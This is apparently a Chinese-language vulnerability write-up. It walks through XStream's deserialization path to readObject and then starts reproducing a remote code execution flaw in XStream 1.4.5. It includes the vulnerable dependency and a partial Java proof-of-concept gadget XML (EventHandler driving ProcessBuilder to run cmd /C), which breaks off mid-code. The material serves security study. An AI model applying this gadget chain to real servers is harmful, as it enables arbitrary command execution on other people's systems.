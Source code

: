 这里是一个SerializableConverter，这时候我们在我们之前在类里面重写的readObject打断点，发现可以进去

![image-20220516224218631](images/3.png)

既然可以调用重写的readObject方法，那只要有对应的可控参数和链子就可以尝试反序列化了

这里还是来看看怎么调用的readObject

![image-20220518183604338](images/4.png)

这里的converter是SerializableConverter，跟它的convert方法

![image-20220518184306675](images/5.png)

继续跟进

![image-20220518184318695](images/6.png)

跟进到SerializableConverter的unmarshal方法

![image-20220518184346310](images/7.png)

跟进doUnmarshal

![image-20220518184428211](images/8.png)

跟进callReadObject

![image-20220518184446831](images/9.png)

这里通过反射调用了对应类的readObject方法，所以在实现serializable接口的时候会调用对应的readObject方法

# CVE-2013-7258远程代码执行漏洞

漏洞影响范围：1.4.x<=1.4.6或1.4.10

复现环境：1.4.5

```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.5</version>
</dependency>
```

## 漏洞复现

POC

```
package XStream;

import com.thoughtworks.xstream.XStream;

public class Unser {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
```
